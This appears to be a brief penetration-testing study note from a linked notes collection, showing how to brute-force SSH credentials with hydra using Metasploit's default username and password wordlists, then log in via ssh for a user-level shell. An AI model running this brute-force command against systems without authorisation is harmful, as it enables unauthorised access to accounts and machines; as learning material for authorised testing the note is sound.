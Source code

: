 
Related to [[Linux Exploitation]],[[[SSH Enumeration]]] and [[Metasploit]]

We can use hydra to enumerate creds:

``` bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt [rIP] -t [threads] [protol (ssh)]
```

Login via:

``` bash
ssh [user]@[rIP]
```

This provides a shell session with users privs.